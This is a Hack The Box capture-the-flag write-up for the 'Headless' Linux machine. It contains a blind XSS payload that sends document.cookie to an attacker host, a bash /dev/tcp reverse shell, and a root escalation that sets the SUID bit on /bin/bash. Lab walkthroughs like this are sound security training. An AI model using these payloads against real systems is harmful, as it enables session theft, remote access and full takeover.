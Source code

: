 ```yaml
---
title:  HTB - Headless
date: 2024-02-02 12:17:34 -0400
categories: [hackthebox , Headless]
tags: [HackTheBox, Python Werkzeug, XSS, User-Agent]
image:
  path: /assets/img/post/headless/Headless-card.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hack the Box - Headless.
---
```


## Box Info

| Name                  | Headless         | 
| :-------------------- | ---------------: |
| Release Date          | 23 Mar, 2024     |
| OS                    | Linux            |
| Rated Difficulty      | Easy             |

## **Enumeration**

```bash
nmap -A -Pn 10.10.11.8 -oG allPorts
```

![Image](/assets/img/post/headless/1.png)

[http://10.10.11.8:5000/](http://10.10.11.8:5000/)

![Image](/assets/img/post/headless/2.png)

## Scan Directory

We dont found anything interesting...

![Image](/assets/img/post/headless/3.png)

### BurpSuite

Now go to /support

![Image](/assets/img/post/headless/5.png)

And we try to intercept this with Burpsuite

![Image](/assets/img/post/headless/4.png)

If I try some HTML injection returns the HTTP request content.

![Image](/assets/img/post/headless/attemp.png)

The HTTP `response` headers show it’s a `Werkzeug / Python server`

**Exploitation**

**Blind XSS on User-Agent**

Try to figerout a large time i found the XSS over header put in a `header-false: a<script>alert(1)</script>`

`<img src=x onerror=fetch('http://<IP>:<PORT>/'+document.cookie);>`

![Image](/assets/img/post/headless/6.png)


**Python Server**

`python -m http.server 8020`

![Image](/assets/img/post/headless/7.png)

![Image](/assets/img/post/headless/8.png)

After Exploit XSS at User-Agent, we get a reply back with the **admin cookie** at the python server

![Image](/assets/img/post/headless/9.png)


[http://10.10.11.8:5000/dashboard](http://10.10.11.8:5000/dashboard)

![Image](/assets/img/post/headless/10.png)

![Image](/assets/img/post/headless/11.png)


**Reverse Shell**

![Image](/assets/img/post/headless/12.png)

```
#!/bin/bash
/bin/bash -c 'exec bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'
#Create Reverse Shell script into a file, In my case I create .sh
```

![Image](/assets/img/post/headless/13.png)

![Image](/assets/img/post/headless/14.png)

![Image](/assets/img/post/headless/15.png)

![Image](/assets/img/post/headless/16.png)

**User Flag**

## Privilege Escalation

#### Check sudo -l

![Image](/assets/img/post/headless/17.png)

Syscheck

cat /usr/bin/syscheck:

![Image](/assets/img/post/headless/18.png)


### Exploit [initdb.sh](http://initdb.sh)

`echo "chmod u+s /bin/bash" > initdb.sh chmod +x initdb.sh`

- `chmod u+s /bin/bash`: Sets the set-user-ID (SUID) permission on `/bin/bash`, allowing users to execute the bash shell with the file owner's (typically root) privileges.
- `chmod +x initdb.sh`: This command changes the permissions of the file `initdb.sh`, making it executable (`+x`) by the file's owner, group, and others. This allows the script to be run as a program by the user.

![Image](/assets/img/post/headless/19.png)

```
sudo /usr/bin/syscheck
/bin/bash -p
```

`/bin/bash -p`: starts a bash shell with root privileges retained, due to the SUID bit making the shell run with the file owner's (root's) effective ID.

![Image](/assets/img/post/headless/20.png)

**Root Flag**